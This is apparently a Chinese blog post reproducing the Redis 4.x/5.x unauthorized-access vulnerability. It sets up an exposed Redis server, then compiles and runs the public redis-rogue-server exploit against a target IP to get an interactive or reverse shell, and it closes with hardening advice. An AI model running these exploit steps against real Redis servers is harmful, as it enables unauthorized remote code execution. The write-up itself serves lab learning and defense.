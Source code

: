 ```yaml
---
title: Redis 4.x/5.x 未授权访问漏洞
categories:
  - 漏洞复现
abbrlink: 46878
date: 2020-11-30 11:42:29
---
```

### 前言
　　看了安恒红皮书的redis未授权漏洞，本章复现此漏洞，不得不说网上的坑很多，真的多。安装环境都在linux下进行
<!-- more -->

###  环境搭建

```bash
wget http://download.redis.io/releases/redis-5.0.5.tar.gz
tar xzf redis-5.0.5.tar.gz
cd redis-5.0.5/
make
make install
```
　　到这里不出意外的话，能使用如图所示的命令
　　<img src="https://s3.ax1x.com/2020/11/30/D21tcn.png">

### 修改配置文件
　　当前目录下有个redis.conf文件，将bing 127.0.0.1 这行前面添加#，将protected-mode yes 改为no
　　<img src="https://s3.ax1x.com/2020/11/30/D23vs1.png">

### 启动redis

```bash
# 使用带配置文件启动
redis-server redis.conf # 注意配置文件路径
```
### 下载exp
　　这里我参考别人复现的时候，因时间已久，很多exp已不能用或者github地址404。当你参考此文章时，我也不能保证是否会出现上述情况，请自己寻找其他exp
```bash
git clone https://github.com/SnowMeteors/redis-rogue-server.git
```
编译exp

```bash
cd redis-rogue-server/RedisModulesSDK/exp/
make
```
　　完成后，会在当前目录生成一个exp.so文件
　　<img src="https://s3.ax1x.com/2020/11/30/D2NxLd.png">
　　将exp.so 复制到`redis-rogue-server.py`同一目录下
　　执行以下命令

```bash
python3 redis-rogue-server.py --rhost 靶机ip --lhost 127.0.0.1
```
　　执行成功后，输入i进入交互式shell，输入r进入反弹shell
　　<img src="https://s3.ax1x.com/2020/11/30/D2DDpt.png">
　　详细功能，参考redis-rogue-server-master下的README.md，已经写的非常详细了
### 修复建议
　　１.只有白名单的ip才能访问redis
　　在 redis.conf 文件中找到 # bind 127.0.0.1，将前面的 # 去掉，然后保存。

```bash
bind 192.168.1.100 127.0.0.1
```
　　2.设置访问密码
　　在 redis.conf 中找到 requirepass 字段，去掉其注释，并在后面填上需要的密码

```bash
requirepass 123456789
```

